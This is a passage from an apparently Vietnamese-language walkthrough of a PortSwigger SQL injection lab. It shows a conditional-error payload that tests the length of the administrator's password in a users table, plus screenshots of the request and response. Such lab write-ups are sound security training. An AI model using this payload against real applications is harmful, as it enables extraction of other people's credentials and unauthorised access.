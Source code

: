 => Lỗi được trả về, điều kiện là đúng, độ dài password > 1. 

Chèn payload **'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'**:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image152.png?raw=true)

Send request, quan sát response: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image153.png?raw=true)
